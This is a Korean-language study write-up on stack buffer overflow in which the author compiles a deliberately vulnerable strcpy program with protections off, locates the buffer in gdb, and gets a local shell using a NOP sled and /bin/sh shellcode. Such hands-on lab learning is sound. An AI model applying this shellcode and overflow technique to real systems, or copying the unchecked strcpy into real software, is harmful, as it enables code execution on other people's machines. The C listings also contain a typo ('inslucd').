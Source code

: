# Buffer Overflow란?

**Buffer Overflow**는 C언어나 C++에서 버퍼에 데이터를 입력 받을 때 **입력 값의 크기를 검증하지 않아** 
버퍼가 흘러 넘쳐 다른 변수나 메모리를 덮어 씌우게 되는 버그이다.   
이 취약점을 이용해 **Return address**를 원하는 주소로 덮어 씌워 **IP(Instruction Pointer)를 제어**할 수 있게 된다.   
Buffer Overflow에는 **Stack Overflow**와 **Heap Overflow**가 있다.

## 실습
``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
}
```
**strcpy 함수**로 argv[1]을 buf로 복사하고 printf로 출력한다.   
여기서 취약점은 **strcpy** 함수에서 발생한다.   
strcpy 함수는 null byte(문자열의 끝)를 만날 때까지 문자열을 복사하는 함수이다. 즉, 복사하는 버퍼의 크기를 검증하지 않는 취약한 함수이다.   
그래서 buf의 크기인 256byte를 훨씬 넘는 데이터도 buf에 복사할 수 있게 된다.

```
oojin@ubuntu:~/Study/System/BOF$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie -o bugfile1 bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ls
bugfile1  bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 AAAA
AAAA
```
32bit로 컴파일 시켰다. AAAA를 입력하면 AAAA가 출력되는 그런 형식이다.

```
yoojin@ubuntu:~/Study/System/BOF$ gdb -q bugfile1
Reading symbols from bugfile1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x100 //0x100은 10진수로 256
   0x08048444 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048447 <+12>:	add    eax,0x4
   0x0804844a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804844c <+17>:	push   eax
   0x0804844d <+18>:	lea    eax,[ebp-0x100]
   0x08048453 <+24>:	push   eax
   0x08048454 <+25>:	call   0x8048300 <strcpy@plt>
   0x08048459 <+30>:	add    esp,0x8
   0x0804845c <+33>:	lea    eax,[ebp-0x100]
   0x08048462 <+39>:	push   eax
   0x08048463 <+40>:	call   0x8048310 <puts@plt>
   0x08048468 <+45>:	add    esp,0x4
   0x0804846b <+48>:	mov    eax,0x0
   0x08048470 <+53>:	leave  
   0x08048471 <+54>:	ret    
End of assembler dump.
```

gdb로 bugfile1을 분석해 보았다. main함수를 disassemble하면 위와 같다.
main+3에서 stack을 0x100만큼 확장하였다.(변수 할당)   
RET(4)   
SFP(4)   
buf(256)   
buf가 256byte, SFP가 4byte 그리고 RET(Return address)이니 260 byte를 넘게 입력하면 RET가 덮일 것이다.
./bugfile1 $(python -c 'print("A" * 264)')를 입력하였을 때, Return address가 덮여서 segmantation fautl가 났다.
이때 EIP는 0x41414141로 덮인 상태이다.
이제 쉘 코드를 메모리 어딘가에 넣어서 공격을 하면 된다.
bugfile1은 argv[1]을 buf로 복사하니, agrv[1]에 넣고 Return address를 buf의 주소로 덮어씌우면 된다.
buf의 주소를 찾아보겠다.  
main+33 지점이 strcpy 함수가 끝나는 시점이니 이곳에 break를 걸고 디버깅 해 보았다.

```
(gdb) b* main+33
Breakpoint 1 at 0x804845c
(gdb) r $(python -c 'print("A"*264)')
Starting program: /home/yoojin/Study/System/BOF/bugfile1 $(python -c 'print("A"*264)')

Breakpoint 1, 0x0804845c in main ()
(gdb) x/70wx $esp
0xffffce38:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce48:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce68:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce78:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce88:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce98:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcea8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffceb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcec8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf08:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf18:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf28:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf38:	0x41414141	0x41414141	0x00000000	0xffffcfd4
0xffffcf48:	0xffffcfe0	0x00000000
```

스택에 argv[1]에 입력한 A 264개가 들어 있다.
buf의 주소는 ** 0xffffce38** 이다.

이제 argv[1]에 쉘코드를 넣고 RET 전까지 채운 후, buf 주소를 넣으면 된다.
하지만 buf의 주소가 정확하지 않을 수도 있기 때문에 **NOP Slide** 또는 ** NOP Sled** 라는 기법을 사용하면 성공 확률을 높일 수 있다.

쉘 코드는 /bin/sh를 실행시키는 25byte 코드를 사용하였다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

**NOP(100)+SELLCODE(25)+NOP(131)+SFP(4)+RET(4)**
이렇게 하면 된다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������8���
Segmentation fault (core dumped)
```

공격이 실패했다. 이유는 gdb에서 분석시에 buf의 주소와 실제 시행 시에 buf의 주소가 차이가 나기 떄문이다.
bugfile1의 소스 코드르 조금 수정하여 실제  buf 주소가 무엇인지 확인 해 보았다.

``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    printf("%p\n", buf);
}
```

printf 함수로 buf의 주소를 출력해보았다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
```

실제 buf의 주소는 **0xffffce78**이었다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x78\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
$ id
uid=1000(yoojin) gid=1000(yoojin) groups=1000(yoojin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

실제 주소인 **0xffffce78**로 다시 exploit을 시도해보았더니 성공하였다.
